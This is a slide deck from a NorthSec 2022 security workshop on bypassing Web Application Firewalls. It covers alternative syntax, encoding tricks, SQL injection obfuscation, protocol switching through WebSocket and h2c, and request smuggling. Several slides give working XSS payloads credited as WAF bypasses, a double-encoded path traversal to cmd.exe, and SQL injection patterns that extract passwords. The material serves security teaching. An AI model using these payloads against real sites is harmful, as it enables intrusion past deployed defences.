





# **Web Application Firewall Workshop**

Presented by Philippe Arteau

**NorthSec 2022**

---

# About Me

 - Security Engineer at ServiceNow
 - Interested in application security, automation, crypto, ...
 - Open-source developer
    - **Find Security Bugs**: Static Analysis for Java applications
    - **Burp and ZAP Plugins**: (Retire.js, CSP Auditor, Reissue Request Scripter, …)

---

# Agenda

 1. What is a WAF?
 2. Alternative Syntax
 3. Encoding
 4. SQL Syntax
 5. Switching Protocol
 6. Request Smuggling

---

# Workshop

 - Repository: https://github.com/h3xstream/waf-workshop
 - See the the `README.md`:
   - Slides
   - Details content and instructions 
   - Docker instances

--- 

<!-- _class: lead -->
# What is a WAF?


---

# Definition

- The purpose of the Web Application Firewall is to filters, monitors, and blocks HTTP traffic.

- HTTP traffic can incoming and/or outgoing 



---

# Vendors



---

<!-- _class: lead -->
# Alternative Syntax

---

# Alternative Paths

What is the path to Wordpress's users endpoint?

 - https://target.blog/wp-json/wp/v2/users
 - https://target.blog/?author=1
 - https://target.blog/?rest_route=/wp/v2/users
 - https://public-api.wordpress.com/rest/v1.1/sites/target.blog/posts

*Source: [6 ways to enumerate WordPress Users](https://www.gosecure.net/blog/2021/03/16/6-ways-to-enumerate-wordpress-users/)*

---

# Alternative HTML Tags

```xml
<svg/onload=prompt(/XSS/)>
```

```html
<video onnull=null onmouseover=confirm(1)>
```
*Source: Cloudflare WAF Bypass by [Bohdan Korzhynskyi](https://twitter.com/bohdansec)*

```html
<dETAILS open onToGgle=a=prompt,a() x>
```
*Source: Akamai WAF Bypass found by [@s0md3v](https://twitter.com/s0md3v/)*

---

# Alternative Keywords

Instead of `information_schema.tables`, `all_tables`, `sys.sysobjects` ...

Alternatives table names:
 - `information_schema.table_constraints`
 - `mysql.innodb_table_stats`
 - `dbo.__MigrationHistory`
 - `ALL_TAB_STATISTICS`


---

<!-- _class: lead -->
# Encoding


---

# Case Mapping

PHP `i` identifier is needed to enable insensitivity
```php
preg_match("/union.*select/i")
```

Python `re.IGNORECASE` 
```
re.compile("<[a-z]", re.IGNORECASE)
```

`[NC]` in `.htaccess` (Apache HTTP Server)
```
RewriteCond %{QUERY_STRING} \bwp/v2/users\b [NC]
```

---

# URL Encoding

**Path encoded**
```url
http://server.com/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\
```

**HTML double encoded**
```url
%253Cscript%253Econfirm()%253C%252Fscript%253E
```

---

# HTML/XSS and Encoding

Depending on the context, different encoding can be used.

| **Encoding Type** | **<** |
| --- | --- |
| Named XML/HTML entities | `&lt;` |
| Hex XML/HTML entities | `&x3C;` / `&#60;` |
| Slash escaped | `\x3C` , `\074`, `\74` |
| String.fromCharCode |`String.fromCharCode(74)` |

---

### Unicode Encoding

Unicode is not the only way to encode characters

• UTF-7 (`+ADw-script+AD4-alert(123)+ADw-+AC8-script+AD4-`) ⚠️
• UTF-16LE (`00 3c 00 62 00 6f 00 6f 00 6b`)
• UTF-16BE
• UTF-32…

⚠️: No longer supported by many browsers and frameworks.

More info: [Unicode vulnerabilities that could byͥte you](https://gosecure.github.io/presentations/2021-02-unicode-owasp-toronto/philippe_arteau_owasp_unicode_v4.pdf)

---

### Unicode Normalization

| Character | Code point |
| -- | --------- | 
| ＜ | (U+FF1C) |
| <  | (U+003C) |

SQL query:
```sql
INSERT INTO ContentTable VALUES (…,'＜img src=…')
```

Content when fetch:
```xml

```

---

## Exercises

Time for some actions..

Open the following URL and see if you can find the bypasses:
http://nsec2022.xss.lol:2222/

---


<!-- _class: lead -->
# SQL Injection

---

# SQLi Whitespace alternatives

| DBMS | ASCII Characters (in hex) |
| ---- | ------------------------------- |
| MySQL	5 | 09, 0A, 0B, 0C, 0D, A0, 20 |
| SQLite | 0A, 0D, 0C, 09, 20 |
| MSSQL | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, [...] |
| PostgreSQL | 0A, 0D, 0C, 09, 20 |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20 |

- Source:  [SQLi Optimization and Obfuscation Techniques](https://paper.bobylive.com/Meeting_Papers/BlackHat/USA-2013/US-13-Salgado-SQLi-Optimization-and-Obfuscation-Techniques-Slides.pdf) (Page 70) by Roberto Salgado

---

# SQLi Obfuscation Patterns

/\*Comments\*/
```sql
SELECT/**/name/**/FROM/**/users/**/WHERE/**/1=1
```
MSSQL [Square brackets]
```sql
SELECT"name"FROM[sys.databases]WHERE"id"=1
```
Oracle
```sql
SELECT 0x7461626c655f6e616d65 FROM all_tab_tables
```

---

## Scientific Expression in MySQL

Using notation such as `1.e(`


```sql
1.e(ascii 1.e(substring(1.e(select password from users [...]
```

This is how MySQL/MariaDB will interpret 

```sql
(ascii (substring((select password from users [...]
```

Source: [A Scientific Notation Bug in MySQL left AWS WAF Clients Vulnerable to SQL Injection](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/) by Marc-Olivier Bergeron

---


<!-- _class: lead -->
# Switching Protocol

---

## WebSocket

WebSocket handshake




---

## WebSocket Passthrough

In order to work:

 - You need to either:
    - Control the status code of ONE page
    - Deploy a custom application at a given path
 - Proxy must honors 101 response (Switching Protocols)
 - WAF does not inspect WebSocket communication

---

## HTTP/2 Cleartext

WebSocket handshake




---

## HTTP/2 Cleartext Passthrough

In order to work:

 - The backend application needs to support H2C
 - Proxy must honors 101 response
 - WAF does not look at HTTP/2 Cleartext requests.

---

# Exercise

[Live instance (only for NorthSec)](https://nsec2022.xss.lol:8443/){ .md-button .md-button--primary target=_blank}

---


<!-- _class: lead -->
# Request Smuggling

---

<!-- _class: lead -->
## Conclusion

---

## Conclusion

 - Think about transformation
    - Encoding, Replacement, Nested Encoding
 - Parsers implementation differences
    - Application vs Proxy vs Security controls
 - WAF is not a silver bullet
    - Using a WAF is not bad either! (Additional safety)

---

## There is more...

 - This presentation is just a small sample of the possibilities
 - Suggested presentations:
   - [Breaking Parser Logic! Take Your Path Normalization Off and Pop 0days Out](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf) by Orange Tsai
   - [SQLi Optimization and Obfuscation Techniques](https://paper.bobylive.com/Meeting_Papers/BlackHat/USA-2013/US-13-Salgado-SQLi-Optimization-and-Obfuscation-Techniques-Slides.pdf) by Roberto Salgado
   - [Farewell, WAF - Exploiting SQL Injection from Mutation to Polymorphism](https://media.rootcon.org/ROOTCON%2013/Talks/Farewell,%20WAF%20-%20Exploiting%20SQL%20Injection%20from%20Mutation%20to%20Polymorphism.pdf) by Boik Su

---


# The End !

## Social

 - Twitter [@h3xstream](https://twitter.com/)
 - Website [https://blog.h3xstream.com](https://blog.h3xstream.com/)

## Slides

 - Slides + Exercises: https://github.com/h3xstream/waf-workshop
